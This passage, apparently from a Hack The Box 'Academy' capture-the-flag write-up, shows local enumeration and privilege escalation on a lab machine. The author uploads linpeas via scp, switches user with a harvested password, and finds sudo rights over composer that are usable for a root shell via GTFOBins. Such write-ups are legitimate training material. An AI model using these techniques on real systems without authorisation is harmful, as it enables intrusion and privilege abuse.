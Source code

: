 ```console
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Aug 12 21:58:45 2020 from 10.10.14.2
$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```
We are on adm group which means we can read important log files like auth.log,syslog etc.

## Reading user flag
```console
cry0l1t3@academy:~$ cat user.txt 
fc2aa40e************a0b4712916a
```

## Uploading linpeas using scp
```console
reddevil@ubuntu:~/Documents/htb/boxes/academy$ scp linpeas.sh cry0l1t3@academy.htb:/dev/shm/linpeas.sh
cry0l1t3@academy.htb's password: 
linpeas.sh   
```

## Running linpeas on the box
![15](/assets/images/htb-boxes/academy/15.png)

We get a password for user mrb3n.

## Shell as mrb3n
```console
cry0l1t3@academy:~$ su mrb3n
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
```
And we succesfully log in.

# Checking sudo -l
```console
mrb3n@academy:/home/cry0l1t3$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```
Our user can run composer as root. So, let us check this on [gtfobins](https://gtfobins.github.io/gtfobins/composer/#sudo) if we can use this to get a root shell on the box and it turns out we can.
